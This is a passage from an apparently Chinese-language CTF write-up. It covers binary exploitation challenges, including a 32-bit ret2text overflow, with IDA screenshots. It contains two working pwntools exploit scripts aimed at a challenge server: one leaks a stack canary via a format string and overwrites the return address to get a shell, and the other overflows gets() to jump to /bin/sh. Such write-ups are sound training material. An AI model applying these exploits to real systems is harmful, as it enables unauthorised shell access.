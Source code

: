 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005153200798.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

最后还有 (0x8+4) = 12 个字节需要覆盖，覆盖返回地址到system函数才能取得shell

exp：

```python
from pwn import *

p =remote("111.231.70.44",28017)

p.recv()
leak_canary = "%31$x"
p.sendline(leak_canary)
canary = int(p.recv(),16)

print(hex(canary))

getshell = "a" * 100 + p32(canary) + "b" * 12 + p32(0x0804859B)

p.sendline(getshell)

p.interactive()
```

## 5.pwn05

### ret2text 32 

IDA分析一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005154604507.png#pic_center)

gets函数 明显的溢出
双击s

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005154653584.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

偏移为 (0x14+4)
再 Shift+F12

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005154801510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

找到 /bin/sh 

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005154913771.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

exp：

```python
from pwn import *

p=remote('111.231.70.44',28024)

payload='a'*(0x14+4) + p32(0x08048486)

p.sendline(payload)

p.interactive()
```
## 6.pwn06
